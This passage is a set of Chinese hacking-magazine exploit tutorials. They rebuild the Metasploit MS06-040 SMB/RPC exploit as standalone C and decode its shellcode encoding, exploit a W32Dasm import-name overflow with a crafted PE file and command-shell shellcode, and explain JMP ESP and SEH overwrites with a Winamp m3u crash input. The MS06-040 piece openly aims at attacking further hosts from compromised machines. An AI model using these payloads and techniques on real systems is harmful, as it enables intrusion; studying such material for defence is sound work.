堆的分配很复杂，所以堆溢出的利用向来是比较困难的，往往需要具体的漏洞具体分析，这个漏洞也不例外。刚才“mov [edx], eax   mov [ecx+4], eax”时，Eax不是我们能直接控制的，但在执行过上述代码、又双击打开图片，会有一次“mov [eax], ecx   mov [ecx+4], eax”的操作。这个时候Ecx为前指针，Eax为后指针，都是我们可直接控制的。所以我们可以考虑使用各种办法，使第一个地方不发生异常错误，而在第二个地方把ShellCode地址赋给函数某个返回地址，或者异常处理地址或其他地址，这是分析后得到的思路。另一个发现是当第一次“mov [edx], eax   mov [ecx+4], eax”时Ecx是我们指针的地址，而且前面有一句指令“mov [eax], ecx”，这样Eax指向一个指针Ecx，指针Ecx指向我们可以控制的数据。因此可以考虑前指针为一指向函数的地址，后指针为ShellCode的值，此为思路二。最后两种完美的解决办法由于时间的关系没有测试，所以将自己常用的方法和一些想法写了出来，希望大家一起讨论，一起提高，如果有更好的方法，请多指教。

## 从分析MS06-040谈Metasploit攻击代码提取

文／图 何永强／H.S.T


Metasploit Framework针对MS06-040漏洞公布了相应的利用代码Netapi_ms06_040.pm。按老师要求，我特别分析了一下这个漏洞。大家知道，Metasploit公布的代码都是用Perl写的，针对每个漏洞的Exploit核心实现流程都对外屏蔽，我们只能看到一些集成函数调用。而很多时候，我们必须根据具体需求对ShellCode进行灵活修改，包括编码方式、字节数控制、参数改写等，同时也希望将Exploit改写生成自己的可执行程序，以便在“肉鸡”扩展渗透时使用（在“肉鸡”上装Metasploit总不好吧）。因此，本文中我只简单分析MS06-040，毕竟这类只针对Windows 2000的漏洞影响范围已经远不如3年前的“冲击波”病毒那么广了。

更重要的，我是想通过这个漏洞的利用过程，谈谈如何分析Metasploit的Exploit，一步步改写成我们自己的攻击代码，并实现ShellCode的灵活修改。

#### 数据包拦截与漏洞的简单分析

- 漏洞公告如图1所示。根据公告，我们知道这又是RPC服务发生了溢出漏洞，但得到的信息仅此而已。如果从这里开始分析，往往需要做以下几件事情：
  - 分析清楚SMB/DCE RPC协议的相关细节；
  - 对相关模块进行反汇编分析，并尽量熟悉各函数的功能；
  - 根据协议构造相应的测试报文，结合动态调试技术，大致确定模块中引发漏洞的那段代码，并搞清楚是堆栈溢出还是堆溢出漏洞；
  - 动态调试中进行数据流跟踪，分析怎样填充报文数据才能使ShellCode正常执行。

看似简单的几个环节，实际工作量却很大。如果没有专用工具以及良好的团队协作的话，针对Windows远程溢出漏洞的分析和利用将很难完成。

幸好Metasploit会在第一时间将相对重要的漏洞利用代码以pm模块的形式公布出来，我们只需要更新其Framework，或者将相应的pm文件添加到Framework中去就可以利用了……在我的虚拟机（Windows 2000 SP4）上测试成功。测试过程中，通过Ethereal截获通信报文，部分报文如图2所示。


| No. | Source | Destination | Protocol | Info |
|---|---|---|---|---|
| 3.100 | 192.168.3.200 | 192.168.3.100 | SMB/NBSS/DCERPC | Session/Bind/Write 等请求序列 |

通过观察这些报文，容易分析出该漏洞是由于对使用命名管道srvsvc（别名：ntsvcs）向目标机器上UUID为4b324fc8-1670-01d3-1278-5a47bf6ee188的RPC接口发送请求的错误处理引起的，类型为堆栈溢出。

## 分析篇

与MS05-039漏洞的分析文章相似。下面我着重讲解如何打造自己的漏洞攻击代码。

#### 测试程序的构造

在Metasploit提供的Exploit基础上，构造自己的攻击代码最直接的方法，就是将拦截的报文数据构造为TCP数据，它包含了SMB/RPC协议的内容，然后进行发送测试。实现过程中需要准备一个工具——WinHex，该工具可以将二进制数据复制之后直接存为C代码数组（C Source），如图3和图4所示。


```c
unsigned char data[256] = {
  0x2F, 0x80, 0x42, 0xD2, ...
};
```

上面截获的报文都是“请求——回应”的形式，因此我们发送的数据应该从请求报文中获取，通过send函数发出，再通过recv函数接收回应报文数据，然后再发送下一个请求。具体到此漏洞，有IPC$空连接建立、打开命名管道srvsvc、BIND RPC接口、进行RPC通信等共12个SMB请求报文需要发送……


```c
WSAStartup(MAKEWORD(2,0), &wsa);
if ((sockfd = socket(AF_INET, SOCK_STREAM, ...)) ...
...
addr.sin_family = AF_INET;
addr.sin_port = htons(445); // 139端口也可
addr.sin_addr.s_addr = inet_addr(argv[1]);
memset(&(addr.sin_zero), '\0', 8);
if (connect(sockfd, (struct sockaddr *)&addr, sizeof(struct sockaddr)) < 0) {
    printf("Connect failed\n");
    return 1;
}
```

下面5个报文是建立IPC空连接。

```c
if (send(sockfd, SMB_Negotiate, sizeof(SMB_Negotiate), 0) < 0) {
    printf("Negotiate send failed\n");
    return 1;
}
len = recv(sockfd, recvbuf, 4096, 0);
if ((len <= 10) || (recvbuf[9] != 0)) {
    printf("Negotiate failed\n");
}
if (send(sockfd, SMB_SessionSetupAndX1, sizeof(SMB_SessionSetupAndX1), 0) < 0) {
    printf("SessionSetupAndX1 send failed\n");
    return 1;
}
...
if (send(sockfd, SMB_TreeConnectAndX, sizeof(SMB_TreeConnectAndX), 0) < 0) {
    printf("TreeConnectAndX send failed\n");
}
```

下面这个请求报文是CreateFile NamedPipe。

```c
if (send(sockfd, SMB_PipeRequest_srvsvc, sizeof(SMB_PipeRequest_srvsvc), 0) < 0) {
    printf("PipeRequest_srvsvc send failed\n");
    return 1;
}
len = recv(sockfd, recvbuf, 4096, 0);
if ((len <= 10) || (recvbuf[9] != 0)) {
    printf("PipeRequest_srvsvc failed\n");
}
// 下面这个请求报文是BIND RPC Interface(UUID)
if (send(sockfd, SMB_NETAPIEndpoint, sizeof(SMB_NETAPIEndpoint), 0) < 0) {
    printf("NETAPIEndpoint send failed\n");
    return 1;
}
len = recv(sockfd, recvbuf, 4096, 0);
if ((len <= 10) || (recvbuf[9] != 0)) {
    printf("NETAPIEndpoint failed\n");
}
```

下面是5个报文请求发送给指定的RPC接口。

```c
send(sockfd, RPC1_data, sizeof(RPC1_data), 0);
recv(sockfd, recvbuf, 4096, 0);
send(sockfd, RPC2_data, sizeof(RPC2_data), 0);
recv(sockfd, recvbuf, 4096, 0);
send(sockfd, RPC3_data, sizeof(RPC3_data), 0);
recv(sockfd, recvbuf, 4096, 0);
send(sockfd, RPC4_data, sizeof(RPC4_data), 0);
recv(sockfd, recvbuf, 4096, 0);
send(sockfd, RPC5_data, sizeof(RPC5_data), 0);
recv(sockfd, recvbuf, 4096, 0);
```

详细代码参见光盘附带的ms06040-1.c，在XP SP2+VC6下编译、测试通过。上面这种直接拦截通信报文并进行重组发送的方法是比较可靠的，但最大缺点是缺乏灵活性。我们基本无法从二进制报文数据中直接识别出经过特殊编码处理的ShellCode，要修改反连IP、端口等参数的话，只能在Metasploit里使用set RHOST以及set LHOST等命令重新设定，然后发送、抓包再重组……实在是很不方便。这就迫使我们必须先分析Metasploit Exploit的ShellCode编码机制，然后才能确定并修改ShellCode。

## Metasploit Exploit中ShellCode编码机制分析

按照正常思维，我们先看看Netapi_ms06_040.pm以及win32_reverse.pm的内容。其中Netapi_ms06_040.pm只是根据我们的参数设定调用payloads中的ShellCode来构造Exploit，但其中有个语句 `Pex::NDR::Long(int(rand(0xffffffff)))` 很值得注意。这里我们最关心的是ShellCode如何定位。用UltraEdit32打开win32_reverse.pm，看到了相应的原始ShellCode，如图6所示。

从图6中可知，Payload中给出了反连IP、端口等参数在ShellCode中的偏移位置。即使能猜测到ShellCode大致会放在BIND RPC接口之后的几个报文中，但要从各报文数据中直接查找原始ShellCode是……```perl
Payload' =>
{
  Offsets =>
  {
    'LPORT'    => [166, 'n'],
    'LHOST'    => [160, 'ADDR'],
    'EXITFUNC' => [278, 'V']
  },
  'Payload' => "..."
}
```

不可能的。因为它肯定进行了编码处理，要分析清楚 ShellCode 编码方式，还需要使用 Metasploit Framework 进行下面两个测试。

- 1. 在 `win32_reverse.pm` 中，将 ShellCode 全部改为 `\x90`，然后针对目标机器进行测试，并再次拦截报文。溢出之后虽拿不到 Shell，但在 RPC3_data、RPC4_data 和 RPC5_data 这 3 个报文中，可以看到大量循环的 4 字节字符组合 `2D AD D0 6D`。将这 4 字节与 `90 90 90 90` 做 XOR 后，得到编码密钥 `BD 3D 40 FD`。
- 2. 在 `win32_reverse.pm` 中，将 ShellCode 全部改为 `\x41`，再次测试后可见大量循环的 4 字节字符组合 `EA F5 AD 5D`。与 `41 41 41 41` 做 XOR 后，得到另一组密钥 `AB B4 EC 1C`。

由此可见，同一个 Exploit 每次测试编码的 ShellCode 编码密钥都不同。结合前面 4 字节随机数产生语句 `Pex::NDR::Long(int(rand(0xffffffff)))`，可以得到两个结论。

- 1) ShellCode 按照 4 字节编码，并且编码密钥是每次随机产生的；
- 2) 为了便于解码，编码密钥应放在编码后的 ShellCode 前后，因此整个 ShellCode 还会有一段解码头部。

为了验证第 2 个结论，在前面全 90H 的 ShellCode 测试报文中搜索 `BD 3D 40 FD`，结果找不到该序列。进一步发现是将这 4 字节密钥循环左移 8 位后放在固定位置。

```text
4B 99 F9 37 4E 48 42 49 4E F5 98 91 F5 96 46 91
...
AD D0 6D 2D AD D0 6D 2D AD D0 6D 2D AD D0 6D 2D
```

同时，还发现在 RPC4_data 报文数据偏移 2FH 和 E8H 处分别存放着反连 IP 和端口的参数编码，如图 8 所示。

```text
AD D0 6D 2D AD D0 6D 2D ...
... 95 43 99 2D AD 50 16 ...
... 192.168.3.100 ...
```

到这里我们就确定了 ShellCode 的编码方式、编码密钥以及相关参数位置，接下来就是准确定位 ShellCode。原始 ShellCode 在 `win32_reverse.pm` 中可见，现在要确定解码头。由于报文中循环左移 8 位后的编码密钥位于已编码 ShellCode 前部，前面若干字节应为解码部分。

```text
// 整体 SHELLCODE 开始处
0x33, 0xC9, 0x83, 0xE9, 0xB6, 0xE8, 0xFF, 0xFF, ...

// 下面是编码 KEY 左移后的 1 字节，右移 1 字节后为 KEY
0xB9, 0xA8, 0xD8, 0x7E, ...
```

OK，到这里我们已经能够完全定位 ShellCode 了。加上前面掌握的编码方法，既可以直接利用 Metasploit Framework 提供的 ShellCode，也可以对自定义 ShellCode 做后期加工。

#### 打造自己的 Exploit

有了前面的分析，构造自己的攻击程序就比较容易了。将原来的 ShellCode（包括解码部分）替换为自己的，按之前报文发送顺序测试即可；示例代码在 `ms06040-2.c` 中。

> 大家在写程序的时候要注意 SMB 及 RPC 头部问题。如果 ShellCode 要通过几个报文发送，每个报文开头必须是 SMB 和 RPC 协议头，随后才是 ShellCode。

#### 小结

本文简单分析了 MS06-040 漏洞，着重说明了如何通过 Metasploit Framework 提供的 Exploit 编写字节攻击代码。该方法在实践中较有效，希望能为漏洞研究提供帮助。文中不足之处，欢迎指正。

**WTF：**相信看《黑客防线》杂志的朋友都不会对 W32Dasm 陌生，它是非常棒的逆向工具，在“爆破”方面更是所有高手、菜鸟的首选。但是最近却突然出现了它存在溢出漏洞的消息，在我们感到诧异的同时，不禁又开始思考：这个溢出究竟是如何触发的？我们该如何利用？

### 分析和利用 W32Dasm 溢出漏洞

文／图 王炜／ww0830

看过《黑客防线》杂志“密界寻踪”的读者，都知道一段很经典的话：用 W32Dasm 反编译需要破解的程序，接着选择菜单“参考->串式参考”，找到“无效的注册码，请重新输入！”或者“注册码不正确”等可疑字符串，然后往上找，找到跳转过来的位置，用十六进制编辑器，将跳转位置的 JZ 改为 JNZ 并保存，然后重新运行程序，这下随便输入注册码都可以成功注册了，这就是大家耳熟能详的“爆破法”。在这个过程中的主角 W32Dasm 是一个强大的反汇编工具，操作简单，使用方便，由 URSoft 开发。虽然很久不再更新了，但仍被大家广泛使用着。无数初学者（包括我）都是利用 W32Dasm 来完成程序的“爆破”，从而激起兴趣，由此进入了逆向工程的大门。

今年 1 月底 2 月初的时候，突然爆出 W32Dasm 也有缓冲区溢出漏洞的消息！想想破解了无数软件的 W32Dasm，本身却存在被“黑”的可能，我只能无奈地摇摇头。看来单凭技术和经验，人类的确无法达到百分之百的完美和精确。我们迫切需要一种创新的机制或方法，来规划软件的开发过程，尽量减少甚至消灭各种安全隐患。扯远了，还是来看看这个漏洞本身的信息和利用方法吧！

#### 漏洞的起因和分析

漏洞公告如图 1 所示。漏洞公告的意思是 W32Dasm 在处理可执行文件的引出／导入函数名时存在问题。W32Dasm 使用 `wsprintf()` 函数复制文件的引入／导出函数名到一个 256 字节的缓冲区中，由于没有检查字符串的长度，所以可能会引发缓冲区溢出。

如同现在的大多数漏洞公告一样，公布出的信息比较少，我们需要自己来定位一下有问题的代码段。

> **WTF：**这最近几期的黑防中，都有文章讲解如何定位有问题的代码，大家可以翻出来复习一下。

打开 SoftICE 后，运行 W32Dasm，按 Ctrl+D 呼出 SoftICE，敲入“Addr W32Dasm89”命令，表示进入 W32Dasm 的进程空间。然后输入“Bpx wsprintfA”，表示在调用 wsprintfA 这个函数时中断下来。

> **WTF：**在 Windows 中，函数有 ANSI 实现和 Unicode 实现两种形式，分别是函数名加 A 和 W。当参数是 ANSI 码时，系统会自动使用带 A 的函数来执行；如果参数是 Unicode 码，系统则使用带 W 的函数来执行。

再按 Ctrl+D 回到 Windows 系统下，用 W32Dasm 选择一个可执行文件分析。当调用 wsprintfA 的时候，SoftICE 就会弹出来，停留在如下的代码中：

```asm
USER32!wsprintfA
77D1C96A  LEA EAX, [ESP+0C]
77D1C96E  PUSH EAX
77D1C96F  PUSH DWORD PTR [ESP+0C]
77D1C973  PUSH DWORD PTR [ESP+0C]
77D1C977  CALL USER32!wsprintfA
77D1C97C  RET
```

看来，wsprintfA 只是原封不动调用了 wvsprintfA 函数而已。我们可以用 D 命令分析传过来的参数，就可以知道要格式化输出的东西是什么了。中断了多次，包括处理 Select a File for Disassembly、Loading、allocation 等字符串后，终于到了复制函数名的过程。这下要小心地跟下去了。在“77D1C97C RET”执行后，返回到了 W32Dasm 程序的空间中，停留在 0045D8E0 中，附近的代码为：

```asm
0045D8C8  LEA EAX,[EBX+00640A2B]
0045D8CE  PUSH EAX
0045D8CF  PUSH 00403818
0045D8D4  LEA EDX,[EBP-00FC]
0045D8DA  PUSH EDX
0045D8DB  CALL USER32!wsprintfA
0045D8E0  ......
```

换成高级语言，就是“wsprintfA(EDX,00403818,EAX)”。再继续跟踪，可以看到该子函数的返回语句在 0045DCD6：

`0045DCD6 RET`

但 wsprintfA 中的参数“EDX、00403818、EAX”究竟是什么东西呢，我们再来看看吧。退回 Windows 下，关掉 W32Dasm 后重新运行。这次进 SoftICE 中下断点“bpx 0045D8C8”，也就是表示运行到代码 0045D8C8 的时候中断下来。这样我们可以单步执行，查看压入的参数是什么。同样，再次在 W32Dasm 中选择一个可执行文件分析，果然到 0045D8C8 的时候 SoftICE 弹了出来。我们按 F10 单步执行下去，到“0045D8CE PUSH EAX”时，敲入“D EAX”，可以看到 EAX 原来是引入函数名的字符串；然后敲入“D 00403818”，可以看到 00403818 是“%s”；运行到“0045D8DA PUSH EDX”时，敲入“D EDX”，可以看到 EDX 是“EBP-00FC = 0065BDE8”。这样执行的函数实际上是：

`wsprintfA([EBP-00FC], "%s", 函数名)`

wsprintfA 函数不会检查函数名字字符串的长度，它会一直进行复制，直到遇到末尾标志 `0x00` 为止，而分配空间 `[EBP-00FC]` 到保存的返回地址只有 `0xFC` 这么多，所以如果函数名过长，可以把返回地址覆盖掉，跳转到想执行的任意代码中，从而完成利用。我们看看是哪个子函数的地址会被覆盖，在执行“CALL wsprintfA”前敲入“D EBP+4”，可以看到保存的返回地址为 00457F3B；我们输入“U 00457F3B”查看附近的代码：

```asm
00457F36  CALL 0045D3C1
00457F3B  POP  ECX
```

漏洞产生的流程为：

```asm
00457F36  CALL 0045D3C1
   |
   └── 0045D8C8  LEA EAX,[EBX+00640A2B]  // 函数名
        ...
        └── 0045D8DB  CALL USER32!wsprintfA
             ...
             └── 0045DCD6  RET
```

如果函数名过长，wsprintfA 可以把子函数 0045D3C1 保存的返回地址覆盖掉，从而引发缓冲区溢出。找到问题代码后，我们可以精心构建一个可执行文件，把输入/输出表中的函数名称构造超长，并带上跳转指令和 ShellCode。如果用户使用 W32Dasm 调试，就可以以进程权限在系统上执行任意指令。如何在文件中构建超长的输入/输出函数名呢？这就涉及 PE 文件格式和输入/输出表了。

#### PE 文件格式分析

PE 的意思就是 Portable Executable（可移植的执行体）。“Portable Executable”意味着此文件格式是跨 Win32 平台的，即使 Windows 运行在非 Intel 的 CPU 上，任何 Win32 平台的 PE 装载器都能识别和使用该文件格式。PE 文件结构的总体层次分布如图 2 所示。所有 PE 文件（甚至 32 位的 DLL）必须以一个简单的 DOS MZ header 开始，有了它，一旦程序在 DOS 下执行，DOS 就能识别出这是有效的执行体。然后运行紧随 MZ header 之后的 DOS stub。DOS stub 实际上是个有效的 EXE，在不支持 PE 文件格式的操作系统中，它将简单显示一个错误提示。通常我们对 DOS stub 不太感兴趣，因为大多数情况下它是由汇编器/编译器自动生成的，它简单调用中断 21h 服务 9 来显示字符串“This program cannot run in DOS mode”。紧接着 DOS stub 的是 PE header，PE header 是 PE 相关结构 IMAGE_NT_HEADERS 的简称，其中包含了许多 PE 装载器用到的重要域。

在支持 PE 结构的操作系统中执行时，PE 装载器将从 DOS MZ header 中找到 PE header 的起始偏移量，因而跳过了 DOS stub 直接定位到真正的文件头 PE header。

PE 文件的真正内容划分成块，称之为 Sections（节），每节是一块拥有共同属性的数据，比如代码/数据、读/写等，而节的定位信息放在 PE header 后面的数组结构 section table（节表）中。

在这儿我们只关心输入/输出表，所以对 Sections（节）并不感兴趣，只看和输入/输出表有关的 PE header 结构。

PE header 的定义如下：

```c
IMAGE_NT_HEADERS STRUCT
  Signature dd ?
  FileHeader IMAGE_FILE_HEADER <>
  OptionalHeader IMAGE_OPTIONAL_HEADER32 <>
IMAGE_NT_HEADERS ENDS
```

具体来说，Signature——dword 类型，值为 50h, 45h, 00h, 00h（PE\0\0），本域为 PE 标记，我们可以据此识别给定文件是否为有效 PE 文件。

FileHeader 结构域包含了关于 PE 文件物理分布的信息，比如节数目、文件执行机器等。

OptionalHeader 结构域包含了关于 PE 文件逻辑分布的信息，虽然域名有“可选”字样，但实际上本结构总是存在的。

我们关心的是 OptionalHeader 结构最后的 DataDirectory 数组，它是 16 个 IMAGE_DATA_DIRECTORY 结构数组。IMAGE_DATA_DIRECTORY 结构指明了执行文件中重要部分的起始 RVA 和长度，其定义如下：

```c
typedef struct _IMAGE_DATA_DIRECTORY {
  DWORD VirtualAddress; // 该部分的RVA
  DWORD Size;           // 该部分的大小
}
```

在 DataDirectory 数组的 16 个 IMAGE_DATA_DIRECTORY 元素中，第一项总是 Exported Function Table（输出表）的对应地址及长度，第二项是 Import Table（输入表）的对应地址和长度。

这样在 PE 文件中寻找输入表的方法为：

- 1. 从 DOS header 定位到 PE header；
- 2. 从 optional header 读取 data directory 的地址；
- 3. 用 IMAGE_DATA_DIRECTORY 结构尺寸乘上找寻结构的索引号；
- 4. 将上面的结果加上 “data directory” 地址，得到包含所查询数据结构信息的 IMAGE_DATA_DIRECTORY 结构项。

找到了对应的 IMAGE_DATA_DIRECTORY 结构，比如输入表的 IMAGE_DATA_DIRECTORY 后，其 VirtualAddress 就指明了包含的引入表地址。

引入表实际上是一个 `IMAGE_IMPORT_DESCRIPTOR` 结构数组，每个 `IMAGE_IMPORT_DESCRIPTOR` 包含 PE 文件引入函数的一个相关 DLL 的信息。没有标志指明引入表有多少个 `IMAGE_IMPORT_DESCRIPTOR` 项，以一个全 0 的成员结尾。

```c
IMAGE_IMPORT_DESCRIPTOR STRUCT
  OriginalFirstThunk dd ?
  TimeDateStamp dd ?
  ForwarderChain dd ?
  Name1 dd ?
  FirstThunk dd ?
IMAGE_IMPORT_DESCRIPTOR ENDS
```

我们这里只关心 OriginalFirstThunk 和 FirstThunk。OriginalFirstThunk 包含一个 IMAGE_THUNK_DATA 结构数组的 RVA。IMAGE_THUNK_DATA 是一个 dword 类型的集合，以一个全 0 成员结束，内容是指向一个 IMAGE_IMPORT_BY_NAME 结构的指针，IMAGE_IMPORT_BY_NAME 结构分为两部分：

```c
IMAGE_IMPORT_BY_NAME STRUCT
  Hint dw ?
  Name1 db ?
IMAGE_IMPORT_BY_NAME ENDS
```

Hint 指示本函数在其所属 DLL 的引出表中的索引号，该域被 PE 装载器用来在 DLL 的引出表里快速查询函数。该值不是必须的，一些连接器将此值设为 0。

Name1 含有引入函数的函数名，函数名是一个 ASCIZ 字符串。注意这里虽然将 Name1 的大小定义成字节，其实它是可变尺寸域，只不过我们没有更好的方法来表示结构中的可变尺寸域。

我们就是要改这儿的 Name1，因为没有字段指明函数名的长度，是以 `0x00` 为结束标志，所以我们只要把 Name1 改为超长的函数名就可以引发 W32Dasm 的溢出了。

FirstThunk 与 OriginalFirstThunk 非常相似，它也包含指向一个 IMAGE_THUNK_DATA 结构数组的 RVA。IMAGE_THUNK_DATA 数组虽然不一样，但里面包含的值却也是一样的，如图 3 所示。虽然这两个数组现在都一样，但在执行的时候就不同了。

#### 文件的构建和漏洞的利用

搞清楚了 PE 文件的结构后，我们可以使用 PE 编辑工具来修改，我用的是 Lord PE。运行图如图 4 所示。

图 3

图 4

单击 PE Editor 可以选择可执行文件来分析和修改，给出的 PE 分析信息非常详细，添加和修改 PE 内容也很方便，的确是一个非常好用的工具。有了这么多期“溢出研究”版块的熏陶，大家应该知道我们构造的函数名应为如下格式：

> 构造的函数名格式 = N N N N N N S S S S S S S S S NNNNNNRJMPBACK

其中：

```c
N=NOP空指令0x90，什么都不做；
S=ShellCode；ShellCode的具体写法，参看上一期杂志，有详细的介绍。这里使用精简的ShellCode，如下：
char shellcode[] =
"\x55\x8B\xEC\x83\xEC\x2C\xC7\x45\xF4"
"\x63\x6F\x6D\x6D\xC7\x45\xF8\x61\x6E"
"\x64\x2E\xC7\x45\xFC\x63\x6F\x6D\x22"
"\x33\xD2\x88\x55\xFF\x8D\x45\xF4\x50"
"\xB8\x44\x80\xBF\x77\xFF\xD0\x90\x90";
R=覆盖地址，我们使用JMP ESP的通用地址0x7ffa4512来覆盖；
JMP BACK=往回跳。我们把ShellCode放在前面，所以用一个E9 0B FF FF FF前跳入前面的NOP中，最后顺序执行到ShellCode中。


```

现在我们知道怎么改了，也知道改什么了。点击 PE Editor 的 “Directories” 按钮，进入到 Directories 的修改中，如图 5 所示。

图 5

在 “ExportTable，ImportTable” 右面有 “…”，“L” 和 “H” 等 3 个按钮，如图 6 所示。

图 6

其中点击 “…” 会出现 PE 头结构分析，点击 “L” 会出现结构列表，而点击 “H” 就可以出现十六进制编辑器加以编辑。我们点击 “H” 进入编辑状态，把引入函数名改成我们构造好的函数名，如图 7 所示。

图 7

修改完后，我们用 W32Dasm 反编译该精心构造的文件，啪！弹出了 DOS 控制台，得到了一个 Shell，利用成功！

#### 小结

该漏洞的利用思路基本还是和普通堆栈溢出一样，但麻烦之处在于要构造 PE 文件头结构，需要 PE 结构的知识。可以看出，安全技术是一个整体，只有各方面都系统地掌握，打好基础，才能有更好的发展空间。

【本文涉及的代码（程序），请见随书光盘】

**WTF：** 最近 Windows 系统上的第三方程序漏洞层出不穷，Ccproxy 6.22、RealPlayer、Winamp 等漏洞都相继浮出水面，很是让喜欢漏洞的朋友们快乐了一场。很多想自己学习编写漏洞溢出程序的朋友也给我来信，要求讲解一下相关漏洞的具体情况和详细的利用方法，于是特约此文。

### 剖析 Winamp 漏洞

文／图 川大信息安全研究所 王炜 戴宗坤
缓冲区溢出最常见的形式是堆栈溢出，产生的原因一般是在函数内定义了像 `char buf[256]` 这样的数组以保存字符串，编译器在编译时会在堆栈中分配固定长度空间。当使用 `strcpy`、`sprintf` 等函数往 `buf` 里复制字符串时，如果不检查边界，源串超过长度就会覆盖栈中其他数据，从而造成堆栈缓冲区溢出。
除了堆栈溢出外，常见的还有堆溢出。其产生原因是在程序中使用 `malloc` 等函数在 heap 区动态分配内存后，仍使用 `strcpy`、`sprintf` 等不安全复制方式，复制内容可能超过分配大小并覆盖其他数据，从而造成堆溢出。其他形式还有字符串溢出、C++ 虚函数指针溢出、短整型变量溢出等。

缓冲区溢出后，如果只是随意覆盖数据，通常会导致进程异常或系统问题；但若精心构造覆盖数据，就可能执行攻击者代码，实现对目标机控制，这就是缓冲区溢出的利用。

#### 堆栈溢出的两种基本利用方式

因为各种溢出所覆盖的系统结构各不相同，所以有不同的利用形式，也可能需要综合使用。对于 Windows 下的堆栈溢出来说，有两种基本利用方式。

- **1. JMP ESP 覆盖方式**

这种利用方式由 dark spyrit（AKA Barnaby Jack）在 1999 年提出，是 Windows 下缓冲区溢出利用进入成熟阶段的标志。其做法是在覆盖到返回地址时，用系统 DLL 中 `JMP ESP` 指令地址覆盖返回地址，并在其后布置 ShellCode。
该方法能进入 ShellCode，是因为函数返回时执行 `RET`（即 `POP EIP`），EIP 指向 `JMP ESP`，而 ESP 正好指向 ShellCode 首字节，从而跳转执行攻击代码。

举一个例子：

```c
#include <stdio.h>
#include <string.h>

char name[] = "111";

int main()
{
    char output[4];
    strcpy(output, name);
    return 0;
}
```

局部数组 output 只有 4 字节的空间，而 `strcpy(output, name)` 没有检查长度，所以我们可以精心构造 name 的数据，实现堆栈缓冲区溢出的利用。

根据上面的分析，可以得知 JMP ESP 利用方式的构造为：

```c
char name[] = "\x41\x41\x41\x41" // output[0-3]
             "\x41\x41\x41\x41" // ebp
             "\x12\x45\xFA\x7F" // ESP --> JMP ESP 的地址
             "\xCC\xCC\xCC\xCC"; // ShellCode


```

能否达到我们的目的呢？单步调试执行观察效果，果然，在 main 函数最后的 RET 时，EIP 会被覆盖成我们给的 7FFA4512，如图 3 所示。
继续 F11 单步执行，EIP 跳转为 7FFA4512，可以看到对应的指令是 FF E4 = JMP ESP，如图 4 所示。
而此时的 ESP 指向我们的 ShellCode = `"\xCC\xCC\xCC\xCC"`。那么执行 JMP ESP 后，果然进入到了我们的 ShellCode 中了，如图 5 所示。
到了这一步，已经完成了缓冲区溢出漏洞的利用。在实际中，只要把 `"\xCC\xCC\xCC\xCC"` 改成真正可用的 ShellCode 即可。

- **2. CALL EBX/POP POP RET 覆盖方式**

这种方法是人们对 Windows 系统结构更加深入了解后，达到的一种质的提升！这种方法不是覆盖函数的返回地址，而是覆盖 Windows 系统的异常处理链 SEH！

在 Windows 系统下，当发生异常时，有一个健全的出错处理机制——异常处理链 SEH，其链表的结构如图 6 所示。
当系统遇到一个异常时，就会查找异常处理链 SEH，找到对这种异常处理程序，找到了对应的处理程序后，就把保存的处理程序的地址赋给 EIP，这样系统就会执行处理程序，以避免系统崩溃。如果到异常处理链的最后都没有合适的处理程序，就会引发系统默认异常，弹出一个出错对话框，结束出错进程。

在 Windows 系统下，SEH 链保存在堆栈中。所以这种 CALL EBX 方式，就是将顶层 SEH 中的指向下一结点的值覆盖成 JMP 04，而处理程序地址覆盖成“CALL EBX/POP POP RET”的地址，后面跟上 ShellCode。这样出错后，Windows 就会跳到处理程序中，执行 CALL EBX 或 POP POP RET 进入前面的 JMP 04 中，再执行 JMP 04 就正好跳过覆盖的地址，达到我们的 ShellCode！

还是刚才的那个程序，“CALL EBX/POP POP RET”利用方式的构造如下：

```c
char name[] =
"\x41\x41\x41\x41" // name[0]-name[3]
"\x41\x41\x41\x41" // 覆盖 ebp
"\x41\x41\x41\x41" // 覆盖 EIP 为非法
...
"\x90\x90\xCB\x04" // JMP 04
"\x71\x15\xFA\x7F" // 处理程序地址
"\xCC\xCC\xCC\xCC"; // ShellCode


```

单步执行观察，当执行到 main 函数的 RET 时，会返回到 41414141 地址中，如图 7 所示。
图7

因为该空间没有指令加载，所以会引发异常，系统进入异常处理流程。但我们已经把异常处理链 SEH 精心覆盖，所以最后会跳转进入我们的 ShellCode = `"\xCC\xCC\xCC\xCC"` 中，如图 8 所示，从而实现了利用。

“JMP ESP”和“CALL EBX”这两种方式都使用得非常广泛，Windows 下 90% 的堆栈溢出利用都是使用这两种中的一种。但有些时候会有一些比较特殊的漏洞，即使是堆栈溢出，也需要特殊分析、特殊利用才能成功，比如 Winamp 的 in_cdda 漏洞。
图8

#### Winamp m3u 漏洞分析和利用

##### 1. 漏洞简介

M3U 是一种媒体序列格式，通常作为播放列表，保存一系列要播放的媒体。一般，m3u 文件的格式要求如下：

```text
#EXTM3U
#EXTINF:111,3rd Bass - Al z A-B-Cee z
mp3/3rd Bass/3rd bass - Al z A-B-Cee z.mp3
```

第一个值是 `#EXTM3U`，是该 M3U 文件的标识符，始终不变。标志下面两排内容为一对，标明一个媒体内容。第一排开头首先是 `#EXTINF`，作为记录标志，也是不可变的；接着冒号“:”后是一个数字，表示该记录的时间长度，单位是秒，时间后是逗号，再接着就是音轨的名字（不是文件名）。第二排就是真实的文件名字。

M3U 还有其他的一些格式规范，当 Winamp 播放器在打开播放列表文件（.m3u），并处理 .cda 格式时，就会产生缓冲区溢出。首先生成一个 .m3u 文件，按照格式要求输入如下的数据：

```text
#EXTM3U
C:\1234567890abl234.cda
```

保存后用 Winamp 打开，Winamp 自动关闭！看来引发了溢出。漏洞的原因是 Winamp 调用 in_cdda.dll 处理 M3U 文件中的 cda 格式，但 cdda 库只能存储有限个字节，从而导致缓冲区溢出。

##### 2. 漏洞的分析和特殊利用

一般的堆栈溢出利用，找到了函数覆盖的返回点或异常处理点后，就可以使用上面介绍的方法，用通用地址覆盖即可，但这个漏洞却有点不一样。

这次用 OllyDbg 加载，再用 Winamp 打开构造的文件。会出现两次异常，第一次在：

```asm
10009BE8    884C04 30    MOV BYTE PTR SS:[ESP+EAX+30], CL


```

这里我们可以不管，在实际运行时，Winamp 可以自己处理。按 Shift+F9 跳过后，进入第二次执行错误，如图 9 所示。
图9
图10
图11

不能执行的 0x34333231 是我们覆盖的数据，这下可以控制程序的流程跳转了，但观察堆栈 ESP 附近，却没有我们覆盖的数据！这样即使执行 JMP ESP 之后，也进入不了我们的 ShellCode，当然更谈不上使用 CALL EBX 的利用方式了。

